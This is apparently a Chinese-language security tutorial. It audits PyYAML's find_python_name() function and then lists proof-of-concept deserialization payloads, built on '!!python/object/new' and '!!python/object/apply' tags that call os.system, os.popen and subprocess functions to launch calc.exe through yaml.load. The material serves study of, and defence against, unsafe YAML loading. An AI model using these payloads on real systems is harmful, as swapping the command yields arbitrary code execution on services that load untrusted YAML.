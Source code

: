 
```
def find_python_name(self, name, mark, unsafe=False):
        if not name:
            raise ConstructorError("while constructing a Python object", mark,
                    "expected non-empty name appended to the tag", mark) #如果name为空，将会报错
        if '.' in name:
            module_name, object_name = name.rsplit('.', 1) #如果name中包含"."，将会对name进行分割为模板名和对象名
        else:
            module_name = 'builtins'
            object_name = name #如果name中没有"."，则会将模板名命名为"builtins"，对象名命名为"name"
        if unsafe:
            try:
                __import__(module_name) #unsafe默认为False，所以可以利用__import__将模块导入
            except ImportError as exc:
                raise ConstructorError("while constructing a Python object", mark,
                        "cannot find module %r (%s)" % (module_name, exc), mark) #如果ImportError异常，将会报错
        if not module_name in sys.modules:
            raise ConstructorError("while constructing a Python object", mark,
                    "module %r is not imported" % module_name, mark)#如果模块不在sys.modules字典中，将会报错
        module = sys.modules[module_name]
        if not hasattr(module, object_name):
            raise ConstructorError("while constructing a Python object", mark,
                    "cannot find %r in the module %r"
                    % (object_name, module.__name__), mark)#使用hasattr()函数查该模块是否包含了指定的对象名，如果没有将报错
        return getattr(module, object_name)#利用getattr()函数获取返回值,也就是hi行了对应的函数
```
通过审计 find_python_name()，我们发现还可以通过引用 module 的类创建对象，从而执行我们的恶意代码，实现攻击。

## 针对!!/object/new
```
import yaml

poc = '!!python/object/new:os.system ["calc.exe"]'
#给出一些相同用法的POC
#poc = '!!python/object/new:subprocess.check_output [["calc.exe"]]' 
#poc = '!!python/object/new:os.popen ["calc.exe"]'
#poc = '!!python/object/new:subprocess.run ["calc.exe"]'
#poc = '!!python/object/new:subprocess.call ["calc.exe"]'
#poc = '!!python/object/new:subprocess.Popen ["calc.exe"]'

yaml.load(poc)
```

## 针对 object/apply
```
import yaml

poc = '!!python/object/apply:os.system ["calc.exe"]'
#给出一些相同用法的POC
#poc = '!!python/object/apply:subprocess.check_output [["calc.exe"]]' 
#poc = '!!python/object/apply:os.popen ["calc.exe"]'
#poc = '!!python/object/apply:subprocess.run ["calc.exe"]'
#poc = '!!python/object/apply:subprocess.call ["calc.exe"]'
#poc = '!!python/object/apply:subprocess.Popen ["calc.exe"]'

yaml.load(poc)
```
